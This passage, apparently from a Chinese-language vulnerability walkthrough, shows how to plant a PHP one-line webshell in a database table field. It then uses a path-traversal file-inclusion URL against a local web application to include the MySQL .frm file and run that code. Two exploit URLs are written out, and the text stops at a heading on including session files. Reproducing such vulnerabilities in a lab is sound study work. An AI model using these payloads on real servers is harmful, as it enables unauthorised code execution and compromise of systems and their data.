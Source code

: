 

![1566792705398](images\1566792705398.png)

在数据库下创建表，（linux权限限制严格，普通用户一般不能创建数据库，但大多数可以建表）。

创建一个字段包含一句话木马的表

![1566792339344](images\1566792339344.png)

![1566792396814](images\1566792396814.png)

直接包含数据文件

```url
http://127.0.0.1:8080/index.php?target=db_sql.php?/../../../../../../../../var/lib/mysql/data/test/my.frm
```

有的没有data这一层目录

```
http://127.0.0.1:8080/index.php?target=db_sql.php?/../../../../../../../../var/lib/mysql/test/my.frm
```

即可看到phpinfo界面

**2、包含session文件**
